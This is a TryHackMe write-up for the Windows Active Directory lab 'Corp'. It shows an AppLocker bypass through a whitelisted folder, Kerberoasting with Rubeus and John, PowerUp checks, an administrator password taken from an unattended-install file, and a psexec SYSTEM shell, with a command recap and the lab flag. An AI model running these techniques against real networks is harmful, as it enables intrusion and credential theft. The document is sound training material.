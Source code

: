 # Corp - TryHackMe

**Platform:** TryHackMe\
**Difficulty:** Easy\
**IP Address:** `10.201.22.17`

---

## 🧭 Overview

`Corp` is a Windows-based Active Directory lab focused on bypassing AppLocker, performing Kerberoasting, evading antivirus detection, and escalating privileges. The goal is to obtain administrative access and capture the final flag.

---

## 🔍 Enumeration

For this box, credentials and RDP access details were provided, so initial enumeration started with a direct RDP login.

---

## 🚪 Initial Access & Foothold

### 📥 AppLocker Bypass

Navigated to:

```
C:\Windows\System32\spool\drivers\color
```

This folder allows execution of binaries despite AppLocker restrictions.

Uploaded and executed:

- `Rubeus.exe`
- `PowerUp.ps1`

---

## 🔑 Kerberoasting

Executed Rubeus to dump Kerberos service ticket hashes, then cracked the resulting hash with John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Gained credentials for a new domain user.

Logged in as the new user over RDP.

---

## ⬆️ Privilege Escalation

### 🔎 Running PowerUp

Used:

```powershell
. .\PowerUp.ps1; Invoke-AllChecks
```

Found stored credentials in:

```
C:\Windows\Panther\Unattend\Unattended.xml
```

Extracted a base64-encoded password, decoded to:

```
administrator / tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

### 💻 Admin Shell via psexec

```bash
psexec.py administrator:'tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T'@$target
```

Obtained SYSTEM shell.

---

## 🏁 Flags

### User Flag

Captured during RDP session.

### Root Flag

Located on Administrator's Desktop:

```
THM{g00d_j0b_SYS4DM1n_M4s73R}
```

---

## 📂 Useful Commands Recap

```bash
# AppLocker bypass folder
C:\Windows\System32\spool\drivers\color

# Kerberoasting
Rubeus.exe kerberoast /outfile:hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# PowerUp
. .\PowerUp.ps1; Invoke-AllChecks

# Decode Base64
base64 -d <<< "<encoded>"

# Admin shell
psexec.py administrator:'password'@$target
```

---

## 🧠 Lessons Learned

- AppLocker bypasses can often be found in whitelisted system directories.
- Rubeus remains a reliable Kerberoasting tool in Windows AD labs.
- Sensitive credentials are frequently stored in unattended installation files.
- Combining enumeration tools like PowerUp with manual checks speeds up privesc.

---

